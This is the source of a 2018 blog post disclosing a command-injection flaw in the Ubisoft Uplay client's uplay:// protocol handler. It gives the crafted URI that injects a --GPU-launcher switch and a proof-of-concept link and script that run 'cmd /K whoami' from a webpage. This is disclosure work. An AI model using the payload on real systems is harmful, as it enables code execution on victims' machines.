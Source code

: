 ```yaml
---
title: Ubisoft UPlay RCE Exploit
layout: post
date: 2018-11-16 12:33
image: "/images/ubipoc.png"
---
```


<h1 class="cyan-text title">Ubisoft Uplay Desktop Client - Remote Code Execution</h1>
<h2 class="cyan-text subtitle">Introduction</h2>

<div class="content white-text">
	Exploit Title: Ubisoft Uplay Desktop Client 63.0.5699.0 - Remote Code Execution
	<br>
	Date: 2018-09-01
	<br>
	Exploit Author: Che-Chun Kuo
	<br>
	Vulnerability Type: URI Parsing Command Injection
	<br>
	Vendor Homepage: https://www.ubisoft.com/en-us/
	<br>
	Software Link: https://uplay.ubi.com/
	<br>
	Version: 63.0.5699.0
	<br>
	Tested on: Windows, Microsoft Edge
	<br>
	Advisory: https://forums.ubi.com/showthread.php/1912340-Uplay-PC-Client-July-17th-2018
	<br>

	<h3 class="cyan-text subtitle">Vulnerability</h3>
	<br>
The Uplay desktop client does not properly validate user-controlled data passed to its custom uplay URI protocol handler. This flaw can be used to exploit the Chromium Embedded Framework (CEF) integrated within the Uplay client, allowing for arbitrary code execution.
	<br>

Installing Uplay registers the following custom uplay protocol handler:

	<pre><code class="black green-text">HKEY_CLASSES_ROOT
	uplay
		(Default) = "URL:uplay Protocol"
		URL Protocol = ""
			DefaultIcon
				(Default) = "upc.exe"
		Shell
			Open
			Command
				(Default) = "C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "%1"
	</code></pre>
	<br>

The %1 will be replaced with arguments from the URI. The following crafted URI performs arbitrary code execution:

<pre><code class="black green-text">uplay://foobar" --GPU-launcher="cmd /K whoami &" --</code></pre>

When a victim opens this URI, the string is passed to the Windows ShellExecute function.
<br><br>
Microsoft states the following: "When ShellExecute executes the pluggable protocol handler with a string on the command line, any non-encoded spaces, quotes, and backslashes in the URI will be interpreted as part of the command line. This means that if you use C/C++’s argc and argv to determine the arguments passed to your application, the string may be broken across multiple parameters."
<br><br>
"Malicious parties could use additional quote or backslash characters to pass additional command line parameters. For this reason, pluggable protocol handlers should assume that any parameters on the command line could come from malicious parties, and carefully validate them."
<br><br>
The Uplay desktop client does not properly validate user-controlled data. An attacker can inject certain Chromium flags that allow for arbitrary code execution. The malicious URI breaks the command line with a quote character and inserts a new switch called --GPU-launcher. Since the Uplay client uses the Chromium Embedded Framework (CEF), Chromium command lines switches are supported.
<br><br>
The --GPU-launcher switch provides a method to execute arbitrary commands. The following string shows the final command, which opens the Windows command prompt and executes the whoami program.
<br>

	<pre><code class="black green-text">"C:\Program Files (x86)\Ubisoft\Ubisoft Game Launcher\upc.exe" "foobar" --GPU-launcher="cmd /K whoami &" --"</code></pre>

	<h3 class="cyan-text subtitle">Attack Scenario</h3>

The following attack scenario would result in the compromise of a victim's machine with the vulnerable Uplay client installed. A user running Microsoft Edge visits a specially crafted webpage or clicks on a specially crafted link. The user is served with the prompt: Did you mean to switch apps? Microsoft Edge is trying to open "UPlay launcher". After the user gives consent, the vulnerable application runs, resulting in arbitrary code execution in the context of the current process.
<br><br>
This scenario also works on IE, but the IE browser shows the URI string to be opened and warns users against opening untrusted content. Microsoft Edge provides no such warning. Chrome and Firefox both escape illegal characters before passing the URI to the protocol handler.
<br><br>
After Uplay desktop client (upc.exe) is run, upc.exe will attempt to open additional executables before the --GPU-launcher is activated. One notable executable is the UplayService.exe. UplayService requires elevated privileges. If the user is a non-administrative user a UAC prompt will appear.
<br><br>
It should be noted, this UAC prompt doesn't prevent command execution from occurring. Regardless of which option the user chooses within the UplayService UAC prompt (Yes/No), command execution will still occur once the code that passes the --GPU-launcher switch to the CEF is triggered within upc.exe.

<h4 class="cyan-text subtitle">Proof of Concept</h4>

The following POC provides two avenues to trigger the vulnerability within Microsoft Edge.
The first method triggers when the webpage is opened.
The second method triggers when the hyperlink is clicked by a user.
<br>

<pre><code class="black green-text">&lt;a href='uplay://foobar" --GPU-launcher="cmd /K whoami &" --'&gt;ubisoft uplay desktop client rce poc&lt;/a&gt;

&lt;script&gt;
  window.location = 'uplay://foobar" --GPU-launcher="cmd /K whoami &" --'
&lt;/script&gt;
</code></pre>
<br>

</div>
<div class="video-container">
  <iframe src="https://www.youtube.com/embed/mffRsZgWgys" frameborder="0" allow="accelerometer; autoplay; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>
 </div>
